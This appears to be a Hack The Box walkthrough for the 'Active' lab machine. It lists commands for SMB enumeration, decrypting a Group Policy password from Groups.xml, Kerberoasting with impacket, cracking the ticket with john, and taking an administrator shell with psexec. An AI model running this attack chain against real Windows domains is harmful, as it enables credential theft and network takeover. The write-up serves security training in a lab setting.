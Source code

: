 # Active Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA active -Pn 10.10.10.100``
### or
``nmap -p- -sV -oA fullactive 10.10.10.100``
### and 
``nmap --script safe -445 10.10.10.100``

### DNS recon
``gobuster dns -d active.htb -t 25 -w /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt``

``dnsrecon -d 10.10.10.100 -r 10.0.0.0/8``

``nslookup ``

``server 10.10.10.100``

``127.0.0.1``

### SMB recon
``smbmap -H 10.10.10.100``

``enum4linux -a -u "" -p "" 10.10.10.100 ``

``enum4linux -a -u "guest" -p "" 10.10.10.100``

``smbclient -U '%' -L //10.10.10.100``

``smbclient -U 'guest%' -L //10.10.10.100``

### SMB to not miss anything in the share
``smbmap -R Replication -H 10.10.10.100``
``smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q``
### or 
``smbclient //10.10.10.100/Replication``
``RECURSE ON``
``PROMPT OFF``
``mget *``

# ${{\color{purple}Initial Foothold}}\ $

### I found a password in the Groups.xml file but what to do afterwards on a box where the port 3389 is not open ?

Decode password :

`python3 gpp-decrypt.py -c edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

![image](https://user-images.githubusercontent.com/123066149/217777696-9092c454-7c24-4105-b10a-2a65fc5e4ef1.png)


# ${{\color{purple}Exploitation}}\ $

 ### 1) Find the users of the box 
``/usr/bin/impacket-GetADUsers -all -dc-ip 10.10.10.100 active.htb/svc_tgs``


![image](https://user-images.githubusercontent.com/123066149/217771016-d0786329-3bb6-4532-bb18-921fc95d9590.png)

### 2) List the user's rights on the shares  
Before 
![image](https://user-images.githubusercontent.com/123066149/217771660-8735c7cd-af60-48b9-982c-64d1fcedb241.png)
After
![image](https://user-images.githubusercontent.com/123066149/217771490-866b2fb7-5e4f-41b8-874a-e279cf7386ab.png)

### 3) Try a connection ( need Windows )

`runas /netonly /user:active.htb\svc_tgs cmd`

and list the shares :

`dir \\10.10.10.100\Users`

### 4) Try to get UserSPNs :

`/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS` 

# ${{\color{purple}Privilege Escalation}}\ $

`/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS` 

![image](https://user-images.githubusercontent.com/123066149/217774864-66183e11-96a7-4a42-819e-62e3e25316d9.png)

`john --wordlist=/usr/share/wordlists/rockyou.txt -format=krb5tgs ./krb5tgs.txt`

![image](https://user-images.githubusercontent.com/123066149/217775198-6f5eb564-77e6-4d6f-b49b-d23072f98973.png)

`/usr/bin/impacket-psexec active.htb/Administrator@10.10.10.100`

![image](https://user-images.githubusercontent.com/123066149/217775392-8a49d703-f564-4ac3-a139-34f4fccc0c69.png)

# ${{\color{purple}Points of Improvement}}\ $

* Add the domain ``active.htb`` directly from the ``host`` file.
* Before doing a ``locate`` command, use the ``updatedb`` command to update the database.
* Make an nmap script to know the version of smb ``nmap --script safe -445 10.10.10.100``
* Remember to change the ``/``in the command : ``/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``
Otherwise the command does not work     

